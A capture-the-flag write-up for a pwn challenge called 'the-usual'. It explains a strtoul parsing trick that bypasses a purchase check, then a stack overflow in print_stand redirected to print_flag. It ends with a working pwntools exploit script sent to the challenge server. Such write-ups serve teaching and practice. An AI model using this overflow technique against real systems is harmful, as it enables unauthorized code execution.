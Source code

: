 # the-usual

```
points: 447
text: In the heart of a bustling medieval market, a burly Viking with a formidable beard and weathered armor stumbles upon a peculiar sight—a vibrant flag shop adorned with banners of every hue. Intrigued by the fluttering colors, he enters the shop, his towering frame contrasting with the delicate textiles. With a mix of curiosity and confusion, he marvels at the array of flags, pondering which one might best represent his warrior clan amidst the sea of symbols and sigils.

nc 35.94.129.106 3008

```
we can see that the only spot where we can do an overflow is in the function **print_stand**, to execute it we need to buy the 3rd element

we dont have enough money tho!

to buy it we need to look at the **read_uint** function

###### i aint readin allat ######

as is it stated in the documentation ```stroul("0anystring",0LL,10)``` returns 0 because the string interpretation stops at the first symbol that isn't valid in the base (third parameter) and it passes all the checks

now inside the **print_stand** function we can do a ret to win to **print_flag**

```py
from pwn import *

r = remote("35.94.129.106", 3008)

r.sendline(b"3")
r.sendline(b"0 M0NT3C4RL0 F7W")
ret = p64(0x0000000000401557)
r.send(b"a"*0x28+ret)
r.interactive()
```
